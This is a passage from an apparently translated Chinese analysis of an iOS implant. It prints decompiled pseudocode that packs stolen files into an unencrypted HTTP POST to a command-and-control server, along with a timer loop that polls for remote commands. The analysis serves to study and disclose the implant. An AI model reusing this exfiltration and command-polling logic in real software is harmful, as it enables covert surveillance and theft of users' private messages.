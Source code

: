```
    [str appendFormat:@"--%@rn", "9ff7172192b7"] ;
    [str appendFormat:
      @"Content-disposition: form-data; name="%@"; filename="%@"rn",
      file, file];
    [str appendFormat:@"Content-Type: application/octet-streamrnrn"];

    encoded = [str dataUsingEncoding:NSUTF8StringEncoding];
    [data appendData:encoded];

    file_path = [files objectForKeyedSubscript:file];
    file_data = [NSData dataWithContentsOfFile:file_path];
    [data appendData:file_data];

    newline_encoded = [@"rn" dataUsingEncoding:NSUTF8StringEncoding];
    [data appendData newline_encoded] ;   
  `}`

  final_str = [NSString stringWithFormat:@"--%@--rn", @"9ff7172192b7"];
  final_encoded = [final_str dataUsingEncoding:NSUTF8StringEncoding];
  [data appendData:final_encoded];

  return data
`}`
```

构建一个HTTP POST 请求主体，将每个文件的内容嵌入为表单数据。确实通过HTTP （而不是HTTPS ）对所有内容进行POST发送，并且不会对上传的数据做非对称加密。现在一切都很清楚了，如果你连接到未加密的WiFi网络上，就会向你周围的所有人，你的网络运营商和任何中间网络广播这些信息，以便向命令和控制服务器广播。

这意味着消息传递应用程序提供的端到端加密的信息会被监听;，而且攻击者通过网络以纯文本形式将端到端加密消息的所有内容发送到他们的服务器上。

#### <a class="reference-link" name="%E5%91%BD%E4%BB%A4%E5%BE%AA%E7%8E%AF"></a>命令循环

在iPhone设备被利用之后，在初始运行时植入代码在进入睡眠状态之前以类似的方式执行大约十二次批量上传，并且每60秒被操作系统唤醒一次。

NSTimer将确保每60秒调用[Service timer_handle] 方法一次：

```
-[Service timer_handle] `{`
  NSLog(@"timer trig")
  [self status];
  [self cmds];
`}`
```

[Service status] 使用[SystemConfiguration](https://developer.apple.com/documentation/systemconfiguration?language=objc)框架确定设备当前是通过WiFi还是移动数据网络连接。

[Service cmds] 调用[Service remotelist] ：

```
-[Service cmds] `{`
  NSLog(@"cmds");
  [self remotelist];
  NSLog(@"finally");
`}`
```
